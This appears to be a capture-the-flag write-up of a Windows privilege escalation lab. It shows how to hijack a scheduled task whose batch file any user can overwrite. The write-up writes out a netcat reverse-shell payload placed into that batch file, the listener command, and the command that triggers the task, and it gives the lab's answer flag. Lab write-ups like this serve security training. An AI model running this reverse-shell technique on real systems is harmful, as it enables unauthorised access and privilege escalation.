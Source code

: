 **TASK 4: Other Quick Wins**

**Make sure to open attackbox or your vm in order to solve this taks....**

Privilege escalation is not always a challenge. 
Some misconfigurations can allow you to obtain higher privileged user access and, in some cases, even administrator access.
It would help if you considered these to belong more to the realm of CTF events rather than scenarios you will encounter during real penetration testing engagements. However, if none of the previously mentioned methods works, you can always go back to these.



**Scheduled Tasks**

In order to get a detail view about any services that you are using you can use the command `schtasks` like this:

     schtasks /query /tn vulntask /fo list /v

**Q. What is the taskusr1 flag?**

For this we will see the schtasks and look out for the option **Task to Run** and **Run As User** which shows the user that will be used to execute the task.

If our current user can modify or overwrite the "Task to Run" executable, we can control what gets executed by the taskusr1 user, 
resulting in a simple privilege escalation. To check the file permissions on the executable, we use icacls.

As can be seen in the result, the BUILTIN\Users group has full access (F) over the task's binary. 
This means we can modify the .bat file and insert any payload we like. For your convenience, nc64.exe can be found on C:\tools.

      echo c:\tools\nc64.exe -e cmd.exe <yourip> 4444 > C:\tasks\schtask.bat

Now open the listener in your machine 

    nc -lnvp 4444

if it shows error that 4444 is already in use then make sure to changes the port number in both of the above command..

By doing this we made sure the moment the next task is scheduled we will get a reverse shell with taskusr1 privileges. 

As this is a lab thats why we have so much access but in real life the things will be different and we might not be able to trigger the task we will have to wait for task to trigger.

      C:\> schtasks /run /tn vulntask


Now check your machine you will see that you have a reverse shell connection with the user taskusr1


![reverseshell](https://github.com/Anirudh-Saxena/Windows-Privilege-Escalation-WriteUP/assets/73027020/94c378a2-4bed-484e-8f95-b79b8a28d26b)

For flag type the command :

         C:\Users\taskusr1\Desktop\flag.txt


The flag is: `THM{TASK_COMPLETED}`


    
